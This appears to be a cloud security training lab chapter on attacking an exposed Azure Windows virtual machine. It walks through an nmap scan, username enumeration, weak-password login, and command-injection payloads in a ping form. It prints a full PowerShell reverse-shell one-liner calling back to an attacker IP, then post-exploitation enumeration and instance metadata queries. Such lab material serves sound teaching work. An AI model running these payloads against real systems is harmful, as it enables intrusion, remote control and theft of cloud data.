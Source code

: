 # Azure Virtual Machines

## Introduction

Azure Virtual Machines are the same as Amazon's EC2 instances.

Basically, Azure Virtual Machines

- are like virtual machines on the cloud
- you start a Azure VM and you are given the choice of adding key pair for ssh or providing a password for a username
- for Windows images, a password for the Administrator account is made available.
- you can choose to use a pre-created image for linux and Windows
- you can add the virtual machines in their own private networks using Virtual Network
- you can allow access to certain ports and certain IPs using network groups

Attackers can target any of the aspects of Virtual Machine. This not only includes web applications, services etc. running on the instance but also the access to the Virtual Machine itself.

## What are we going to cover?

This chapter covers some of the attacks that can occur on an exposed Azure virtual machine on the Internet. This chapter also covers attacks and commands that can be run once a Windows Virtual Machine is compromised.

## Steps to attack

- SSH into attacker EC2
- All attacks in this module will be run from the attacker EC2

### Attack 1 - Service discovery on the target using Nmap

Nmap is one of the world's most widely used port scanning utilities. We can use it to discover the services exposed by the target virtual machine.

Run the following commands from the cloud attacker machine to complete this exercise

    sudo nmap -sS --script http-enum -v --top-ports 10000 -sV -g80 <TARGET-IP-ADDRESS>

Analyze the output. If you see any ports open, it is because you have set the Azure network security group rules to see the ports.

## Attack 2 - Attack the web application to gain shell access

Although, you can set the Azure Network Security group to allow your student IP (like the RDP port) and access the IP from the student/host machine directly, it is recommended that you let only the attacker machine be accessible and use a SOCKS proxy to connect and attack the target.

1. Read the `/robots.txt` to find a hidden (interesting) directory
2. Attempt various usernames. Notice that the application can be used to perform username enumeration
3. Identify the password for the `admin` user and login (Hint: One of the top 10 most common passwords)
4. Identify the vulnerability post login

It appears that the application accepts an IP address or a hostname and performs a ping request. From the output it appears that the server uses the `ping` command in the backend. To be able to test and exploit the vulnerability, we will need to identify the Operating System in the backend first.

By passing the following two inputs we can identify if the OS is Linux or Windows:

- For Linux
1. `127.0.0.1;cat /etc/passwd`

- For Windows
1. `127.0.0.1&ipconfig`

Once we have identified the OS, we can get a reverse shell to execute more commands and get a better idea of the environment we are in

To obtain a reverse shell do the following

1. Start netcat listener on port 9999 of the attacker EC2 using `nc -lvp 9999`
2. Ensure the port is open on the AWS Security Groups (Firewall) so that a reverse shell can connect back. Follow the instructions at - [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/authorizing-access-to-an-instance.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/authorizing-access-to-an-instance.html)
3. Run a windows powershell reverse shell command via the command injection. **Make sure to replace the value of `EXTERNAL-AWS-ATTACKER-IP` in the following with your cloud attacker machine IP**
 

```
127.0.0.1&powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('EXTERNAL-AWS-ATTACKER-IP',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Post Exploitation

### Additional information gathering

1. To obtain IP information: `Get-NetIPConfiguration`
2. To obtain list of users on the system: `Get-WmiObject -Class Win32_UserAccount`
3. Obtain system information: `Get-CimInstance Win32_OperatingSystem | Select-Object  Caption, InstallDate, ServicePackMajorVersion, OSArchitecture, BootDevice,  BuildNumber, CSName | FL`
4. Obtain detailed information about the entire system: `systeminfo`

### Accessing the metadata service

1. Run the following command in the reverse shell to read the metadata

`curl -UseBasicParsing -Headers @{"Metadata"="true"} 'http://169.254.169.254/metadata/instance?api-version=2017-08-01&format=text'`

2. To get the public IP address of the Instance, run 

`curl -UseBasicParsing -Headers @{"Metadata"="true"} 'http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-08-01&format=text'`

## Addtional References

- [Nmap man page](https://linux.die.net/man/1/nmap)
- [Azure Metadata Service](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)
- [wincmdfu Twitter Account](https://twitter.com/wincmdfu)